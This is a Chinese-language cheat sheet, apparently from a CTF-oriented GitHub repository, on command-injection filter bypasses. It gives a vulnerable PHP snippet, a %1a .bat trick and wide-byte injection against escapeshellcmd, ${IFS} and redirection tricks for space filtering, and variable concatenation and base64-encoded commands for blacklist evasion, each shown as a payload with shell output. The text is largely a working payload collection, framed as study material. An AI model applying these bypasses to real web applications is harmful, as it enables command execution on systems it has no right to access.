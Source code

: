 # 绕过escapeshellcmd
## 法一：执行bat
```
<?php
    $command = 'dir '.$_POST['dir'];
    $escaped_command = escapeshellcmd($command);
    var_dump($escaped_command);
    file_put_contents('out.bat',$escaped_command);
    system('out.bat');
?>
```
执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。
payload:
```
dir=../ %1a whoami
```
## 法二：宽字节注入
php5.2.5及之前可以通过输入多字节来绕过。现在几乎见不到了。
```
escapeshellcmd("echo ".chr(0xc0).";id"); 
```
之后该语句会变成
```
echo 繺;id 
```
从而实现 id 命令的注入。

# 空格过滤
## 法一： ${IFS}
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ cat flag
nice day
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}flag
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}$9flag
nice day
```
payload3:
```
ubuntu@VM-207-93-ubuntu:~$ cat$IFS$9flag
nice day

```
## 法二： 重定向符<>
payload1：
```
ubuntu@VM-207-93-ubuntu:~$ cat<>flag
nice day
```
payload2：
```
ubuntu@VM-207-93-ubuntu:~$ cat<flag
nice day
```

# 黑名单绕过
## 法一： 拼接
```
ubuntu@VM-207-93-ubuntu:~$ a=c;b=at;c=flag;$a$b $c
nice day
```
## 法二： 利用已存在的资源
从已有的文件或者环境变量中获得相应的字符。
## 法三： base64编码
``
ubuntu@VM-207-93-ubuntu:~$ `echo "Y2F0IGZsYWc="|base64 -d`
nice day
```

# 工具
+ [shelling
](https://github.com/ewilded/shelling)
# Refference
+ [PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)
+ [eval长度限制绕过 && PHP5.6新特性](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)
+ [关于lnmp目录禁止执行的绕过与正确方法](https://www.leavesongs.com/PENETRATION/nginx-deny-exec-php-file.html)
+ [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
+ [php webshell分析和绕过waf技巧](http://bobao.360.cn/learning/detail/3271.html)
+ [【技术分享】命令执行和绕过的一些小技巧](http://bobao.360.cn/learning/detail/3192.html)
+ [浅谈CTF中命令执行与绕过的小技巧](http://www.freebuf.com/articles/web/137923.html)